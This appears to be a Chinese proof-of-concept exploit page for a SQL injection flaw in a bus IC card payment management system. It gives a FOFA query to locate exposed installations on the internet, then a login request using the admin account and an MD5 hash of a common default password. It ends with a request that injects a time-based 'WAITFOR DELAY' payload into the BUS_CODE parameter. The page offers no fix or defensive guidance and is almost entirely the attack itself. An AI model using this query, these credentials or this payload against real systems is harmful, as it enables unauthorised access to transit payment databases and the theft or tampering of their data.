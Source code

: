 # 公交IC卡收单管理系统bus存在SQL注入漏洞

公交IC卡收单管理系统bus存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
app="公交IC卡收单管理系统"
```

## poc

获取cookie

```javascript
POST /login HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest

username=admin&password=e10adc3949ba59abbe56e057f20f883e
```

```jade
POST /bus HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: JSESSIONID=BE20D06711487C9D6D5325C1129F244C
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

_search=false&nd=1727248354972&rowCountPerPage=10&pageNo=1&sidx=BUS_CODE&sord=asc&method=select&BUS_CODE=1');WAITFOR DELAY '0:0:5'--
```

